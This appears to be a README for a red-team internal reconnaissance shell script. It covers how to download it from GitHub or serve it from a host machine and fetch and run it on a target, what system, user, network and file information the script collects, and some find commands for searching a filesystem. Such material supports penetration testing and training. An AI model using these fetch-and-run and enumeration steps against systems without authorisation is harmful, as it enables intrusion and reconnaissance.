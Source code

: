 # Internal Reconnaissance Phase

Definition...  

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/internal-recon/internal-recon.sh
sh internal-recon.sh
```
Local network:
```sh
# Host
python -m SimpleHTTPServer 8000 #or
python3 -m http.server 8000
# Target
curl -LJO <Host>:8000/internal-recon.sh
sh internal-recon.sh
```

### Parameters

```sh
sh internal-recon.sh -h

Usage: sh internal-recon.sh [-h/-?] [-c]

-h/-?
  Show this help message

-c
  No colours
  Without colours, the output can probably be read better
```

## Checks

Script collecting information about:  

- System
- Network
- User & groups
- Jobs/tasks
- Services/processes
- Software
- Interesting files
- Container

## Results

Results saved to current directory and printed to stdout.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Additional Information

### Search files and directories in linux

Examples:
```
# search files and directories by keyword within "/" directory (case insensitive)
sudo find / -iname <keyword> 2>/dev/null

# search directories by keyword within "/" directory (case insensitive)
sudo find / -type d -iname some_directory 2>/dev/null

# search files with specific file extension within "/home" directory (case sensitive)
sudo find /home -type f -name "*.conf"

# search files with executable permission
sudo find /home -perm /a=x
```

